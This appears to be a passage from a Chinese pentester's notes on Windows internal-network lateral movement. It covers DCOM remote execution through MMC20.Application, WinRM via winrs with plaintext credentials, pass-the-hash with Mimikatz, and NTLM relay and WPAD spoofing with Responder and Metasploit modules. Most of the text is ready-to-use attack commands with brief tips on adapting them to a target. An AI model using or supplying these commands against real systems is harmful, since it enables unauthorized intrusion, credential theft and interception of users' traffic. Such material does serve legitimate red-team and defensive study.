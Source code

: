 ```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe",$null,"/c calc.exe","")
```

此命令为本地命令执行，在实际运用的时候，需要先建立 $IPC 连接，替换127.0.0.1和要执行的命令即可

#### **WinRM**

> WinRM（Windows Remote Management）即windows远程管理，基于Web服务管理。感觉就像是SSH ~

用账号密码即可远程连接，我本地配置的时候有点问题（设置了TrustedHosts还是不成功...），所以先记录一下指令
`winrs -r:http://targetip:5985 -u:Administrator -p:password "whoami"`
一般来说，5985是http，5986是https

### PTH

> PTH在讲NTLM认证的时候已经阐述过了，这里主要是传递的方式，这部分之前复现过了。和PTH紧密相关的是KB2871997这个补丁，但是sid为500的管理员账户仍可进行PTH，也可以使用AES-256密钥进行PTH攻击
> 20200921更新:刚打完h*，这回运用到了smb beacon和工作组下的pth。在cs下，工作组的pth填写时，domain值是任意的，不填也可以，之前一直认为要填写主机名或者workgroup，后来想了想在工作组环境下不是直接就行了（参考SMB爆破）。

#### impacket

#### Invoke-TheHash

#### Mimikatz使用

```mimikatz
privilege::debug
sekurlsa::pth /user:dc /domain:xxcom.local /ntlm:xxxx
```

~~msf和cs下，之后放上来~~

### NTLM-Relay

> 这个之前摸过了，感觉这种情况实际用的比较少，算是比较被动的方式~觉得主要围绕Responder这个工具展开，之前玩了一圈，好像没写文章发出来，这里就稍做记录吧...

#### 攻击手法1

Responder -b 强制开启401认证，触发场景就是用户访问一个网站，弹出小框框，在内网下捕获（总觉得挺明显的）

#### 攻击手法1.1

> 这个没看过，看了介绍就是因为都能控制PAC了，那直接让用户流量走我们的机器过...（PS 非域内）

~~这个还没手动做过，又mark一下~~

msf指令

```msf
use auxiliary/spoof/nbns/nbns_response
set regex WPAD
set spoofip attackip
run
use auxiliary/server/wpad
set proxy 172.16.127.155
run
```
